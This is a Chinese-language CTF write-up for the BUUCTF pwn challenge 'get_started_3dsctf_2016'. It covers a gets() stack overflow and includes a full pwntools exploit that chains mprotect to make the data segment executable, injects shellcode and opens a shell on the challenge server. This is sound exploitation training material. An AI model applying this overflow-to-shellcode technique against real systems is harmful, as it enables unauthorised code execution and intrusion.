 ```yaml
---
author: 
  name: Zephyr
title: get started 3dsctf 2016
date: 2022-3-21 13:25:03
permalink: /pages/2e1547494524d184
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# get started 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

部分函数表如下

![get_started_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/get_started_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - No PIE
   - 程序开启了NX保护
   - 函数表内有`mprotect`函数
1. 补充：
   - 在`Linux`中，`mprotect`函数可以用来修改一段指定内存区域的保护属性，函数原型如下

```c
int mprotect(const void *start, size_t len, int prot);
// start 为mprotect函数的第一个参数 (被修改内存的地址) 常用.got.plt/.bss起始地址
// len   为mprotect函数的第二个参数 (被修改内存的大小) 通过程序启动时查看该内存块的大小得到
// prot  为mprotect函数的第三个参数 (被修改内存的权限) 7 = 4 + 2 +1 (rwx)
```



3. 思路:
   - 本题存在`mprotect`函数，且无PIE保护，选择栈溢出到`mprotect`处修改权限，在数据段直接写入`shellcode`并返回执行

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/get_started_3dsctf_2016/get_started_3dsctf_2016'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27774)
elf = ELF(pwnfile)
padding = 52+4
mprotect_addr = elf.symbols[b'mprotect']
read_addr = elf.symbols[b'read']
data_start = 0x80EA000
pop_3times_ret = 0x804f460
lenth = 0x2000
rwx = 7
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, data_start,lenth, rwx, read_addr, data_start, 0, data_start, 0x200])
io.sendline(payload)
payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```